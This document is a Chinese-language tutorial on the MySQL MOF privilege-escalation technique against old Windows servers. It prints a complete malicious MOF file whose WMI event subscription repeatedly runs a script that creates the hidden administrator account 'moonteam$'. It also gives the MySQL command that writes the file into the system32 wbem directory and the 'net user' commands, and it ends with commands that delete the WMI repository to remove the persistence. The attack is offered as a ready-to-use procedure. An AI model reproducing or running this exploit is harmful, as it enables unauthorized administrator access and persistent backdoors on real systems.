



## 1、mof是什么

托管对象格式 (MOF) 文件是创建和注册提供程序、事件类别和事件的简便方法。在MOF文件中创建类实例和类定义后，可以对该文件进行编译。编译MOF文件将在CIM储存库中注册所有的类定义和实例。之后提供程序、事件类别和事件信息便可由WMI 和Visual Studio Analyzer使用。 在MOF文件中创建提供程序、事件类别和事件类的实例，并且定义想要分析的自定义对象，之后可以对该文件进行编译

## 2、mof提权的原理:

mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。

其就是用又了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

## 3、条件

- windows 03及以下版本
- mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
- secure-file-priv参数不为null

## 4、modf提权过程

（1）通过msyql上传nullevt.mof文件

```vbscript
#pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 

instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user moonteam$ xxx12456 /add && net localgroup administrators moonteam$ /add\")"; 
}; 

instance of __FilterToConsumerBinding 
{ 
    Consumer   = $Consumer; 
    Filter = $EventFilter; 
}; 
```

上传文件

```bash
select load_file("C:/Inetpub/wwwroot/www.demoasp.com/nullevt.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof"
```

（2）使用脚本提权

http://www.demoasp.com/mof.php

填写好mysq的账号和密码(zkeys),文件会自动写到good目录下

 

```bash
net.exe user moonteam$ xxx12456 /add && net localgroup administrators moonteam$ /add
```

 

当我们成功把mof导出时，mof就会直接被执行，且5秒创建一次用户。

查看用户，远程连接



## 5、关于Mof提权的弊端

我们提权成功后，就算被删号，mof也会在五秒内将原账号重建，那么这给我们退出测试造成了很大的困扰，所以谨慎使用。那么我们如何删掉我们的入侵账号呢？

cmd 下运行下面语句:

```bash
net stop winmgmt
del c:/windows/system32/wbem/repository
net start winmgmt
```

重启服务即可。